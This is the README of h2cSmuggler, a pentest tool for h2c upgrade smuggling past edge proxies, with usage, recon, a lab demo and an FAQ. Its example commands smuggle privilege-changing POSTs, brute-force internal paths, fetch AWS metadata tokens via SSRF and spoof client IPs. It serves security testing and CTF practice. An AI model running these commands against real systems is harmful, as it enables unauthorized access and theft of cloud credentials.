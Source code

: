 
# h2cSmuggler 
<p align="center">
  <img src="media/logo.png" width=50%>
</p>

![License](https://img.shields.io/badge/license-MIT-lightgrey.svg)
![Python version](https://img.shields.io/badge/python-3.x-blue.svg)
[![Ask DeepWiki](https://deepwiki.com/badge.svg)](https://deepwiki.com/YoursSto/h2csmuggler)

✅ **Note:** This repository includes **SSL support**.

1. [Description](#1-description)
2. [Installation](#2-installation)
3. [Usage](#3-usage)
4. [Improvements](#4-improvements)

Visit this [DeepWiki page](https://deepwiki.com/YoursSto/h2csmuggler) to learn more about it.

## 1. Description

h2cSmuggler is a tool designed to test and exploit the [Upgrade Header Smuggling](https://book.hacktricks.wiki/en/pentesting-web/h2c-smuggling.html) vulnerability. It leverages insecure proxy_pass configurations on edge servers to smuggle HTTP traffic by establishing HTTP/2 cleartext (h2c) connections with backend servers that support h2c.

h2cSmuggler bypasses proxy rules and access controls, effectively allowing attackers to tunnel unauthorized HTTP requests past the edge proxy and reach internal services directly. 

<p align="center">
  <img src="media/diagram.png" width=60%>
</p>

You can try this tool against :
- The [Plotwist challenge (N0PSctf 2025)](https://github.com/N0PSctf/N0PSctf-2025/tree/main/web/plotwist) (writeup available via the link) 
- [BishopFox Lab](https://labs.bishopfox.com/tech-blog/h2c-smuggling-request-smuggling-via-http/2-cleartext-h2c) with its comprehensive demo below.


## 2. Installation 

The only dependency is the Python` hyper-h2` library:
```sh
pip3 install h2
```

## 3. Usage

h2cSmuggler uses a familiar curl-like syntax for describing the smuggled request:
```sh
usage: h2csmuggler.py [-h] [--scan-list SCAN_LIST] [--threads THREADS] [--upgrade-only] [-x PROXY] [-i WORDLIST] [-X REQUEST] [-d DATA] [-H HEADER] [-m MAX_TIME] [-t] [-v]
                      [url]

Detect and exploit insecure forwarding of h2c upgrades.

positional arguments:
  url

optional arguments:
  -h, --help            show this help message and exit
  --scan-list SCAN_LIST
                        list of URLs for scanning
  --threads THREADS     # of threads (for use with --scan-list)
  --upgrade-only        drop HTTP2-Settings from outgoing Connection header
  -x PROXY, --proxy PROXY
                        proxy server to try to bypass
  -i WORDLIST, --wordlist WORDLIST
                        list of paths to bruteforce
  -X REQUEST, --request REQUEST
                        smuggled verb
  -d DATA, --data DATA  smuggled data
  -H HEADER, --header HEADER
                        smuggled headers
  -m MAX_TIME, --max-time MAX_TIME
                        socket timeout in seconds (type: float; default 10)
  -t, --test            test a single proxy server
  -v, --verbose
```

Example : 
```
./h2csmuggler.py -x http://localhost:80/api/subdomain1 http://localhost:80/api/target'
```

## 4. Improvements 
- ✅ Added SSL support.
- ✅ Supports self signed SSL Certificates.

---

## Further details
- [🧪 Recon](#recon--how-to-test)
- [🕵️‍♂️ Exploitation](#️️exploitation)
- [💡 Examples](#examples)
- [💻 BishopFox Demo](#bishopfox-demo)
- [💬 FAQ](#faq)

### Recon : How to Test? 

Any proxy endpoint that forwards h2c upgrade headers can be affected. Because h2c is intended to be performed only on cleartext channels, detection on HTTPS services often yields true positives.

By contrast, HTTP services may result in false positives. For example, h2c-enabled proxies may respond to the upgrade instead of forwarding it to an h2c back end.

Use the `--scan-list` option to test one or more web servers to look for affected `proxy_pass` endpoints. Consider using a list of directories discovered from directory enumeration, such as **urls.txt**
```
https://www.example.com/
https://www.example.com/api/
https://www.example.com/auth/
https://www.example.com/admin/
https://www.example.com/payments/
...omitted for brevity...
```

Run h2cSmuggler with the list of endpoints and a total number of threads:

`./h2csmuggler.py --scan-list urls.txt --threads 5`

Or, an individual test can be performed with:

`./h2csmuggler.py -x https://www.example.com/api/ --test`

#### Detecting with other popular tools:
* [Burp Extension (Active Scan check)](https://github.com/BishopFox/h2csmuggler/blob/master/extensions/BurpExtension/h2cSmugglingCheck.py)
* Nuclei-Template ([issue fixed](https://github.com/projectdiscovery/nuclei/issues/256#issuecomment-679038443))
### Exploitation

Once you have identified an affected endpoint that can be used for tunneling, you can now access or brute-force internal endpoints on the back-end server and provide custom verbs or headers. In the [demo below](#test-environment-and-demo), we demonstrate accessing an internal `/flag` endpoint by using h2c smuggling to bypass proxy deny rules.

To remediate, do not forward user-supplied values for `Upgrade` or `Connection` headers. See the [technical post](https://labs.bishopfox.com/tech-blog/h2c-smuggling-request-smuggling-via-http/2-cleartext-h2c) for additional guidance.



### Examples
1\. Scanning a list of URLs (e.g., `https://example.com:443/api/`, `https://example.com:443/payments`, `https://sub.example.com:443/`) to identify `proxy_pass` endpoints that are susceptible to smuggling (be careful with thread counts when testing a single server):

```
./h2csmuggler.py --scan-list urls.txt --threads 5
```

Or, to redirect output to a file. Use stderr (`2>`) and stdout (`1>`). The stderr stream contains errors (e.g., SSL handshake/timeout issues), while stdout contains results.

```
./h2csmuggler.py --scan-list urls.txt --threads 5 2>errors.txt 1>results.txt
```

2\. Sending a smuggled POST request past `https://edgeserver` to an internal endpoint:
```
./h2csmuggler.py -x https://edgeserver -X POST -d '{"user":128457 "role": "admin"}' -H "Content-Type: application/json" -H "X-SYSTEM-USER: true" http://backend/api/internal/user/permissions
```

3\. Brute-forcing internal endpoints (using HTTP/2 multiplexing), where `dirs.txt` represents a list of paths (e.g., `/api/`, `/admin/`).
```
/h2csmuggler.py -x https://edgeserver -i dirs.txt http://localhost/
```

4\. Exploiting `Host` header SSRF over h2c smuggling (e.g., AWS metadata IMDSv2):

Retrieving the token:
```
./h2csmuggler.py -x https://edgeserver -X PUT -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" http://169.254.169.254/latest/api/token`
```

Transmitting the token:
```
./h2csmuggler.py -x https://edgeserver -H "x-aws-ec2-metadata-token: TOKEN" http://169.254.169.254/latest/meta-data/
```
5\. Spoofing an IP address with the `X-Forwarded-For` header to access an internal dashboard:
```
./h2csmuggler.py -x https://edgeserver -H "X-Forwarded-For: 127.0.0.1" -H "X-Real-IP: 172.16.0.1" http://backend/system/dashboard
```

### BishopFox Demo

The test environment will allow you to experiment with h2cSmuggler in a controlled environment. `docker-compose` will simulate three chains of proxies that lead to an h2c-enabled Golang back end:

```
TCP port: Description
========  ===========
8000:     HTTP h2c backend
8001:     HAProxy -> h2c backend (Insecure default configuration)
8002:     nginx -> h2c backend  (Insecure custom configuration)
8003:     Nuster -> HAProxy -> h2c backend (Insecure configuration with multiple layers of proxies)
```


[1] Generate Certificates and spin up the environment with `docker-compose`:
```sh
# Generate certs
./configs/generate-certificates.sh

# Activate services
docker-compose up
```

All of the proxies deny access to the `/flag` endpoint accessible on the h2c back end. Let's attempt to access the forbidden endpoint via the HAProxy server running on port 8001:

<img src="media/fail.png" width=50%/>


We can use h2cSmuggler to confirm the proxy's insecure configuration using `--test` (or `-t`):

<img src="media/test.png" width=70%/>

Now, let's use h2cSmuggler to perform an h2c upgrade, tunnel our HTTP/2 traffic through the proxy, and request the `/flag` endpoint from the back end, bypassing the proxy's access control:

<img src="media/success.png" width=80%/>


For a deeper explanation of what is happening, check out the [technical writeup](https://labs.bishopfox.com/tech-blog/h2c-smuggling-request-smuggling-via-http/2-cleartext-h2c).

-----------
Note : Check also the **[Plotwist challenge](https://github.com/N0PSctf/N0PSctf-2025/tree/main/web/plotwist)** writeup for a full comprehension of H2C.

-----------

### FAQ

**Q: Why are there multiple responses from the server?**

A: The first response is the data response to the original upgrade request initiated in HTTP/1.1, per the h2c upgrade protocol. The following responses are from the smuggled request.

**Q: I received a "101 Switching Protocols" but I'm not receiving any data from the remote server.**

A: I observed this behavior in my tests and found that some servers respond with a 101 status even if they do not actually support HTTP/2.

**Q: Is establishing an h2c tunnel always a vulnerability?**

A: No. Consider a TLS-terminating TCP load balancer (e.g., ELB) proxying directly to an h2c-compatible back end. Although you may be able to establish an h2c connection, if there are no access controls being enforced, then there are no access controls to bypass, or privilege gained by initiating this tunnel.

**Q: Why does the smuggled request URI require a scheme? What is it used for?**

A: The HTTP/2 protocol requires a `:scheme` pseudo-header. For our use case, `http` vs. `https` likely doesn't matter. For more details, see [HTTP/2 RFC: Section 8.1.2.3](https://http2.github.io/http2-spec/#rfc.section.8.1.2.3).

**Q: What should I use as the hostname for the back-end server?**

A: It's best to start with the same hostname as the edge server. Next, try experimenting with alternative hostname values.

